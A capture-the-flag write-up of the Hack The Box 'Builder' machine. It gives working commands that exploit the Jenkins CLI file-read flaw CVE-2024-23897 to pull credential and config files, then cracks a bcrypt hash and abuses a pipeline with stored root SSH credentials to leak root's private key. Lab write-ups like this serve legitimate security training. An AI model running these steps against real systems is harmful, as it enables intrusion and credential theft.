









# Hack The Box – **Builder**  writeup
**Machine Name:** Builder
**Difficulty:** Medium
**OS:** Linux
**Main Technology:** Jenkins
**Key Vulnerability:** CVE‑2024‑23897 (Jenkins CLI Arbitrary File Read)

Builder is a medium‑difficulty box that focuses heavily on understanding how Jenkins works internally. The box starts with exploiting a real Jenkins vulnerability to read files, then slowly pivots into credential extraction, password cracking, and finally abusing Jenkins features to escalate privileges to root.

This machine felt less about “running exploits blindly” and more about **reading, thinking, and understanding what Jenkins is actually doing behind the scenes**, which made it very educational.

---

## 🔍 Enumeration

### Nmap Scan

I started with a full port scan followed by a service scan.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1
8080/tcp open  http    Jenkins
```

**Observation:**

* SSH was open, but no credentials yet.
* Jenkins was running on port **8080**, which immediately became the main attack surface.


---

## 🌐 Jenkins Enumeration

Opening the Jenkins web interface showed the default dashboard. At the bottom of the page, the Jenkins version was visible.

After some research, I discovered that this Jenkins version is vulnerable to **CVE‑2024‑23897**, a recent vulnerability that allows **unauthenticated arbitrary file reads using the Jenkins CLI**.

This was a big moment in the box — instead of brute forcing or guessing, the goal became **reading sensitive files directly from the Jenkins controller**.



Version running



---

## 💥 Exploitation – CVE‑2024‑23897

### Understanding the Vulnerability (in simple terms)

Jenkins has a command‑line tool called **jenkins-cli.jar**. Due to a parsing issue:

* Arguments starting with `@file` are expanded
* Jenkins mistakenly reads the contents of the file
* Errors caused by this leak file contents back to the attacker

So instead of uploading shells, we are **tricking Jenkins into reading files for us**.

---

### Downloading Jenkins CLI

```
wget http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar
```

---

## 🧭 Finding Jenkins Home Directory

To move forward, I needed to know **where Jenkins stores its files**.

I read the process environment variables:

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://10.129.230.220:8080 help "@/proc/self/environ"

```
Key output:



```
HOME=/var/jenkins_home
```



### Why this matters

* Jenkins stores user data inside its **HOME directory**
* Knowing `HOME` lets us locate flags, credentials, and config files

---

## 🚩 User Flag

Using the discovered home directory:

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://10.129.230.220:8080 help "@/var/jenkins_home/user.txt"1
```


This leaked the **user flag**.


---

## 👤 Jenkins Users Enumeration

Inside Jenkins home, there is a `users` directory that stores all Jenkins users.

Reading the users mapping file:

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://10.129.230.220:8080 connect-node "@/var/jenkins_home/users/users.xml"
```

This revealed a username and directory:

```
jennifer → jennifer_12108429903186576833
```

---

## 🔐 Extracting Password Hash

Next, I read Jennifer’s config file:

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://10.129.230.220:8080 connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```

Inside this file was a **bcrypt password hash**.




---

## 🔓 Cracking the Hash (John the Ripper)

### What is John?

**John the Ripper** is a password cracking tool. It takes a hash and tries common passwords until one matches.

I saved the hash into `hash.txt` and used the rockyou wordlist:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


### Hurdle I Faced 🚧

At first, John failed because:

* I accidentally used `rockyou.txt.gz`
* John was reading compressed binary data

After unzipping the file properly, John worked and revealed:

```
princess
```

This gave valid Jenkins credentials:

```
jennifer : princess
```

## 🔑 Logging into Jenkins

Using the cracked credentials, I logged into Jenkins as **jennifer**.

Inside Jenkins, I discovered:

* Stored **SSH credentials** labeled `root`
* SSH Agent plugin installed

This meant Jenkins could authenticate as **root**.



---

## 🚀 Privilege Escalation – Jenkins Pipeline Abuse

I created a new **Pipeline** job and used the SSH Agent plugin to execute commands as root.

Pipeline script used:

```
pipeline {
  agent any
  stages {
    stage('SSH') {
      steps {
        script {
          sshagent(credentials: ['1']) {
            sh 'ssh -o StrictHostKeyChecking=no root@10.129.230.220 "cat /root/.ssh/id_rsa"'
          }
        }
      }
    }
  }
}
```

This leaked the **root SSH private key** in the build output.



Yes, i learned hard way indentation matters here

---

## 🏁 Root Access

After saving the key and setting permissions:

```
chmod 600 root_key
ssh -i root_key root@10.129.230.220
```


I gained root access and retrieved the final flag:

```
/root/root.txt
```


---

## 🧠 Key Takeaways

* Jenkins CLI can be extremely dangerous if misconfigured
* File read vulnerabilities can fully compromise systems
* Jenkins credentials + pipelines = code execution
* Always check **stored secrets** inside CI/CD tools

---

## ✅ Final Thoughts

Builder was an excellent learning machine. It forced me to slow down, read documentation, and truly understand how Jenkins stores users and secrets. The hurdles — especially around file paths, wordlists, and CLI behavior — made the success feel realistic and rewarding.

This box strengthened my confidence in:

* Real‑world vulnerability exploitation
* Jenkins internals
* Credential abuse and privilege escalation

